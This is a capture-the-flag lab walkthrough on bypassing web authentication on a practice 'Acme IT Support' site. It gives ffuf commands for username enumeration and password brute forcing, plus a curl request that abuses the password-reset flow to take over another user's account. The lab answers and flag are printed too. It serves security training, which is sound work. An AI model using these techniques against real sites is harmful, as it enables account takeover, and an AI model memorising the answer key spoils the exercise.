

# ACME IT Support — Authentication Bypass Walkthrough

## Task 1 — Brief

In this room, we will learn about different ways website authentication methods can be bypassed, defeated or broken. These vulnerabilities can be some of the most critical as it often ends in leaks of customers' personal data.

Start the machine and then proceed to the next task.


---

## Task 2 — Username Enumeration

A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames, which we’ll use later in other tasks.

Website error messages are great resources for collating this information to build our list of valid usernames. We have a form to create a new user account if we go to the Acme IT Support website:

`http://MACHINE_IP/customers/signup`

{: width="972" height="589" }

If you try entering the username `admin` and fill in the other form fields with fake information, you’ll see we get the error `An account with this username already exists.`

We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the `ffuf` tool below. The `ffuf` tool uses a list of commonly used usernames to check against for any matches.

### Username enumeration with ffuf

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST \
  -d "username=FUZZ&email=x&password=x&cpassword=x" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -u http://MACHINE_IP/customers/signup -mr "username already exists">valid_username.txt
```

**Explanation:**
- `-w` selects the wordlist file containing usernames to test.
- `-X POST` sets the request method to POST (default is GET).
- `-d` supplies the form data; `FUZZ` marks where the wordlist entry is inserted for the `username` field.
- `-H` adds headers (here we set `Content-Type` so the server parses form data correctly).
- `-u` sets the request URL.
- `-mr` looks for a response body match (the message that indicates a username exists).

> all the valid results will be stored in valid_username.txt

The tool and wordlist come pre-installed on the AttackBox or can be installed locally from https://github.com/ffuf/ffuf.

{: width="972" height="589" }

After completion, the tool has identified several usernames that are already in use on the target system

{: width="972" height="589" }


### Questions & Answers

**2.1. What is the username starting with `si***`?**

**Answer:** `simon`

**2.2. What is the username starting with `st***`?**

**Answer:** `steve`

**2.3. What is the username starting with `ro****`?**

**Answer:** `Robert`

---

## Task 3 — Brute Force

Using the `valid_usernames.txt` file generated in Task 2, we can attempt a brute force attack on the login page:

`http://MACHINE_IP/customers/login`

> **Note:** If you created your `valid_usernames.txt` by piping the output from `ffuf` directly, you may have formatting problems. Make sure the file contains only the usernames (one per line).

A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, as in our case, a list of usernames.

When running the command, make sure the terminal is in the same directory as `valid_usernames.txt`.

### Bruteforcing with ffuf (multiple wordlists)

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \
  -X POST -d "username=W1&password=W2" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -u http://machineIP/customers/login -fc 200
```

**Notes:**
- We're using two wordlists so we define our own placeholders: `W1` (usernames) and `W2` (passwords).
- The `-fc 200` flag filters out responses with HTTP 200; successful logins in this application return non-200 (e.g., 302 redirect), so they will be shown.

To focus the attack on a single username (`steve`) use:

```bash
ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \
  -X POST -d "username=steve&password=W2" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -u http://machineIP/customers/login -fc 200
```

This found a valid credential pair producing a `302` status code (redirect), indicating successful authentication.


{: width="972" height="589" }

### Question & Answer

**3.1. What is the valid username and password (format: username/password)?**

**Answer:** `steve/thunder`

---

## Task 4 — Logic Flaw

### What is a Logic Flaw?

A logic flaw occurs when the expected logical flow of an application can be bypassed, manipulated, or otherwise tricked into performing actions outside intended authorization checks. Logic flaws can exist anywhere in a web application; here we focus on authentication-related logic flaws.

### Example (mock code)

```php
if (url.substr(0,6) === '/admin') {
    // Code to check user is an admin
} else {
    // View page
}
```

If the code compares strings case-sensitively, requesting `/adMin` may bypass the check and show the page without privilege verification.

### Practical Walkthrough — Reset Password Flow

We examine the Reset Password function:

`http://MACHINE_IP/customers/reset`


### Realistic attack flow for the lab

1. Create an account on the Acme customer section. The email format is `{username}@customer.acmeitsupport.thm`.

{: width="972" height="589" }

this is what dashboard looks like once you create account

{: width="972" height="589" }

2. Use your created account's `@acmeitsupport.thm` email as the POST `email` in the reset request. This causes a password reset ticket to be created on your account, but targeted at the victim's username.

```bash
curl 'http://10.10.60.101/customers/reset?email=robert@acmeitsupport.thm' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'username=robert&email=abc@customer.acmeitsupport.thm'
```


{: width="972" height="589" }


- Now refresh your account and check support tickets.

{: width="972" height="589" }

- Click on the ID

{: width="972" height="589" }

- copy that link in new window and you ll be signed in as robert

{: width="972" height="589" }

- Go to support ticket and you ll see the flag

### Question & Answer

**4.1. What is the flag from Robert’s support ticket?**

**Answer:** `THM{AUTH_BYPASS_COMPLETE}`

---

